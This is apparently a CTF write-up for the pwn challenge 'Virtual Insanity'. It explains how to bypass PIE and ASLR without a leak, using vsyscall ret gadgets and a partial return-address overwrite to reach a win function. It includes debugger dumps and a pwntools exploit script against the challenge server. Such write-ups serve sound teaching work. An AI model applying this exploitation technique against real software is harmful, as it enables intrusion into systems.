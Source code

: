 # Virtual Insanity

Categories: pwn

Description:
>Dancing, Walking, Rearranging Furniture
>
>DISCLAIMER: This challenge doesn't require brute-forcing
> 
>author: TheRomanXpl0it (TRX) staff
>
>[dist.zip](resources/dist)

**Tags:** pwn, vsyscall, vdso

## Takeaways

* `[vsyscall]` and ROP wihout leak

## Challenge

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    printf("IMPOSSIBLE! GRAHHHHHHHHHH\n");
    puts(getenv("FLAG"));
}

int main() {
    char buf[0x20];
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    puts("You pathetic pwners are worthless without your precious leaks!!!");
    read(0, buf, 0x50);
}
```

```log
$ checksec --file=./chall
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   42) Symbols       No    0               1               ./chall
```

## Solution

No canary and an obvious linear buffer overflow. Good!

However, the binary is PIE and ASLR is enabled.

The idea is to perform a partial overwrite of the return address to point to the `win` funciton since we have no leak to break ASLR. Let's check if this is possible:

```log
   0x555555555247 <main+109>       mov    eax, 0x0
   0x55555555524c <main+114>       leave
 → 0x55555555524d <main+115>       ret
   ↳  0x7ffff7c29d90 <__libc_start_call_main+128> mov    edi, eax
      0x7ffff7c29d92 <__libc_start_call_main+130> call   0x7ffff7c455f0 <__GI_exit>
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  telescope $rsp
0x00007fffffffd3e8│+0x0000: 0x00007ffff7c29d90  →  <__libc_start_call_main+128> mov edi, eax     ← $rsp
0x00007fffffffd3f0│+0x0008: 0x0000000000000000
0x00007fffffffd3f8│+0x0010: 0x00005555555551da  →  <main+0> endbr64
0x00007fffffffd400│+0x0018: 0x0000000100000000
0x00007fffffffd408│+0x0020: 0x00007fffffffd4f8  →  0x00007fffffffd947  →  "/home/nikos/ctfs/vm-tmp-shared/trx2025/virtual_ins[...]"
...
```

As we can see, a partial overwrite would lead us in the page where `__libc_start_call_main` lives, which is part of `libc.so`. At this point I searched around `__libc_start_call_main` for any gadgets that could lead us to `win`, taking into consideration the current state of the register file. However, I could not find such gadgets. One funny thing you can do with the partial overwrite to return to libc is that you can call `main` in an endless loop by overwriting with `0x89`:

```asm
__libc_start_call_main:
   0x00007ffff7c29d10 <+0>:     push   rax
   0x00007ffff7c29d11 <+1>:     pop    rax
   0x00007ffff7c29d12 <+2>:     sub    rsp,0x98
   0x00007ffff7c29d19 <+9>:     mov    QWORD PTR [rsp+0x8],rdi
   0x00007ffff7c29d1e <+14>:    lea    rdi,[rsp+0x20]
   0x00007ffff7c29d23 <+19>:    mov    DWORD PTR [rsp+0x14],esi
...
   0x00007ffff7c29d76 <+102>:   mov    rax,QWORD PTR [rip+0x1f023b]
   0x00007ffff7c29d7d <+109>:   mov    edi,DWORD PTR [rsp+0x14]
   0x00007ffff7c29d81 <+113>:   mov    rsi,QWORD PTR [rsp+0x18]
   0x00007ffff7c29d86 <+118>:   mov    rdx,QWORD PTR [rax]
   0x00007ffff7c29d89 <+121>:   mov    rax,QWORD PTR [rsp+0x8]      # can be abused for looping main()
   0x00007ffff7c29d8e <+126>:   call   rax
   0x00007ffff7c29d90 <+128>:   mov    edi,eax                      # oriignal return from main
   0x00007ffff7c29d92 <+130>:   call   0x7ffff7c455f0 <__GI_exit>
...
```

Howver, calling `main` in an endless loop and giving us a second chance does not lead us to our goal, the `win` function.

We also do not know the libc of the remote target (nor have any remote leaks to figure it out) in order to ROP to [`one_gadget`](https://github.com/david942j/one_gadget), which would *maybe* required brute-forcing a few ASLR bytes. So, this path is also not an option.

Besides the immediate return address of `main` stored at `0x00007fffffffd3e8` as shown above, another candidate point for partial overwrite is `0x10` bytes further down the stack, where the address of `main` is stored. But how can we survive the return of `main` and use ROP gadgets to reach the 2nd overwrite if we have no leaks? We will abuse `[vsyscall]`.

`[vsyscall]` is always mapped at at the constant address `0xffffffffff600000` on x86 \[[ref](https://github.com/torvalds/linux/blob/16f73eb02d7e1765ccab3d2018e0bd98eb93d973/Documentation/x86/x86_64/mm.txt)\] and contains some simple gadgets:

```asm
// https://elixir.bootlin.com/linux/v6.12/source/arch/x86/entry/vsyscall/vsyscall_emu_64.S

__PAGE_ALIGNED_DATA
	.globl __vsyscall_page
	.balign PAGE_SIZE, 0xcc
	.type __vsyscall_page, @object
__vsyscall_page:
	mov $__NR_gettimeofday, %rax
	syscall
	ret
	int3

	.balign 1024, 0xcc
	mov $__NR_time, %rax
	syscall
	ret
	int3

	.balign 1024, 0xcc
	mov $__NR_getcpu, %rax
	syscall
	ret
	int3

	.balign 4096, 0xcc

	.size __vsyscall_page, 4096
```
As we can see, the `ret` instructions in `[vsyscall]` can be used as noop gadgets until we reach the partial overwrite of the `main` pointer.

In modern kernel versions, `[vsyscall]` is mapped as execute-only ([`XONLY`](https://lore.kernel.org/kernel-hardening/d17655777c21bc09a7af1bbcf74e6f2b69a51152.1561610354.git.luto@kernel.org/)) in userspace, so the page is not readble from userspace even if we want to simply inspect it.

`vsyscalls` are really legacy at this point and were replaced by `vdso`, which servers the same purpose (make some syscalls faster by implementing them in userspace), but is affected by ASLR in contrast to `vsyscall`. `vdso` is also a userspace library while `vsyscall` is really kernel pages mapped to userspace:

```bash
# vdso is located at different address on every run, affected by ASLR
# vsyscall is located at a fixed address:
$ cat /proc/self/maps | grep -Ee 'vdso|vsyscall'
    7fff0e3ba000     7fff0e3bc000 r-xp                   [vdso]
ffffffffff600000 ffffffffff601000 --xp                   [vsyscall]
$ cat /proc/self/maps | grep -Ee 'vdso|vsyscall'
    7ffc794cd000     7ffc794cf000 r-xp                   [vdso]
ffffffffff600000 ffffffffff601000 --xp                   [vsyscall]
$ cat /proc/self/maps | grep -Ee 'vdso|vsyscall'
    7ffe82cd2000    7ffe82cd4000  r-xp                   [vdso]
ffffffffff600000 ffffffffff601000 --xp                   [vsyscall]

$ ldd /bin/cat | grep vdso
        linux-vdso.so.1 (0x00007ffd521f1000)
```

`vsyscall` resolution is out of scope, but it is self-explained in [vsyscall_64.c](https://elixir.bootlin.com/linux/v6.12/source/arch/x86/entry/vsyscall/vsyscall_64.c). Modern kernel configurations emulate `vsyscalls` via page faults and are no longer resolved in userspace for security reasons. Anyway. With these information, we are now able to write our exploit:

```bash
$ objdump -d ./chall | grep -Ee 'main|win'
00000000000011a9 <win>:
00000000000011da <main>:
```

```python
from pwn import *
context.binary = elfexe = ELF('./chall')
io = remote('virtual.ctf.theromanxpl0.it', 7011)

io.recvline()
payload  = b'A'*0x20
payload += b'B'*0x8 # rbp

# vsyscall acts as a noop gadget
payload += p64(0xffffffffff600000) # pc
payload += p64(0xffffffffff600000)
payload += b"\xa9" # partial overwrite to win

io.send(payload)

io.interactive()
io.close()
```

and we get the flag!

`TRX{1_h0p3_y0u_d1dn7_bru73f0rc3_dc85efe0}`
